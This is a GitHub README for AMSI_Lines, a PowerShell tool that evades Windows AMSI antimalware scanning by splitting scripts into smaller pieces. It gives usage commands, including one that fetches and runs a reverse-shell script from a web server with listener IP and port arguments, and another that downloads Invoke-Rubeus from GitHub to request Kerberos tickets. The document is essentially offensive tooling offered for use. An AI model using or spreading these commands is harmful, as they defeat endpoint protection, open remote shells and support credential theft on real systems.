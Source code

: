 # AMSI_Lines

*Bypass AMSI By Dividing files  into multiple smaller files*

### How To Use It

1. Clone The repository: `git clone https://github.com/x4sh3s/AMSI_Lines.git`
2. import the module
```powershell
PS C:\AMSI_Lines>import-module AMSI.ps1
```
3. execute the function `AMSI_Lines` : `AMSI_Lines -File "Url of the File" -Command "Command to be executed directly

### Examples:

```powershell
AMSI_Lines -File http://127.0.0.1:8080/revshell.ps1 -Commands "-LHOST MyIp -Port 9001"
AMSI_Lines # This Will Execute Invoke-Rubeus By default with '-h' parameter
AMSI_Lines -file "https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1" -Commands "invoke-rubeus asktgt"
```
